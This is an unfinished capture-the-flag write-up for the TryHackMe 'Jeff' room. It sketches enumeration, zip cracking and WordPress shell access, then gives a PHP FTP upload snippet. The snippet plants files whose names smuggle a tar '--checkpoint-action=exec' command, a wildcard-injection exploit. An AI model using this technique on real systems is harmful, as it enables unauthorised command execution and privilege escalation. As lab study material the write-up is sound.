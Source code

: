 # Jeff **INCOMPLETE**

https://tryhackme.com/room/jeff

jeff.thm is a website with sub dirs. gobuster on /backups with -x zip will find backup.zip
creacking this zip with john (specify file, e.g. wpadmin.bak, as the whole zip isn't encrypted) will reveal the password
the wpadmin.bak contains the password for jeff on the wordppress site
subdomain enum will reveal wordpress.jeff.thm.
wpterm gives a terminal as www-user
under the wordpress install is a ftp-backup.php that reveals the address and creds for an ftp server
there is no client on the box, but with php interactive (need a tty shell) you can upload files to the server:

```
$username = "backupmgr";
$password = "<redacted>";
$ftp = ftp_connect("172.20.0.1");
var_dump(ftp_login($ftp, $username, $password));
var_dump(ftp_pasv($ftp, False));
var_dump(ftp_nlist($ftp, "."));
var_dump(ftp_chdir ($ftp, "files"));
var_dump(ftp_put($ftp, "/files/shell.sh", "shell.sh", FTP_ASCII));
var_dump(ftp_put($ftp, "/files/--checkpoint=1", "empty", FTP_ASCII));
var_dump(ftp_put($ftp, "/files/--checkpoint-action=exec=sh shell.sh", "empty", FTP_ASCII));
var_dump(ftp_nlist($ftp, "files"));
```

Ideally this should trigger a tar wildcard exploit (but it wasn't working for me)
